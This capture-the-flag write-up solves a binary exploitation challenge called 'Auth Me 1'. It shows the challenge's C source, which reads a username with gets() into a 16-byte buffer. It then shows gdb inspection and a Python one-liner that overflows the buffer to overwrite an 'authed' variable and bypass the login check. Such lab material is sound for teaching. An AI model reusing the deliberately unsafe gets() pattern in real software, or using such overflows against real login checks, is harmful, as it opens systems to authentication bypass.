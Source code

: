 # Binary Exploitation

Challenge Name : Auth Me 1

# Solution

Use the webshell and go to the directory stated in the challenge's description

![[Pasted image 20210610163036.png]]

Before we run let's analyze the source code first.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64
 
char flag[FLAGSIZE_MAX];
   
void setup(){
  FILE *f = fopen("flag.txt","r");
  fgets(flag,FLAGSIZE_MAX,f);
  gid_t gid = getegid();                                                                                                                                                                        
  setresgid(gid, gid, gid);                                                                                                                                                                     
}                                                                                        
int main(int argc, char **argv){
  setup();                                                                                                                                                                                      
  int authed = 0;
  char user[16];
  printf("Authenticate Me 1.0\n");
  printf("--------------------------------\n");
  printf("Enter your username: ");
  gets(user);                                                                                                                                                                                   
  // Haven't implement login function yet
  if(authed){
    printf("Welcome admin! Here is your flag: %s",flag);
  }else{
    printf("Good Bye %s\n",user);
  }                                                                                                                                                                                             
  return 0;
}

```

We found out that it use `gets()` but how can we change `authed` value to 1? Since we can do buffer overflow we might be able to change the value of the variable to other values. Lets save the code as `auth.c` and compile it first.

```bash
gcc auth.c -o auth -fno-stack-protector
```

Then run it .

```bash
gdb ./auth
```

Set a breakpoint to the value if statement or with the line of `cmp`.

```bash
b *0x00005555555548b2
```

![[Pasted image 20210610170033.png]]

We know that user has `16` size so if we added another `8` bytes it should be 24 . Try inrease it one by one until you are able to change the value of what its comparing to something else. To check the value of what it comparing use this command:

```bash
x/w $rbp-0x4
```

This is the value when we put normal value .

![[Pasted image 20210610170438.png]]

This is the value when we put `29` characters of `a`.

![[Pasted image 20210610170550.png]]

`61` is equivalent to `a` if we convert it from hex. So we can get flag because if statement will check if there is value other than 0 it will become true. So we just need to run this ro get our flag

```bash
python3 -c "print('a' * 29)" | ./auth ;echo
```

# Flag

![[Pasted image 20210610170826.png]]



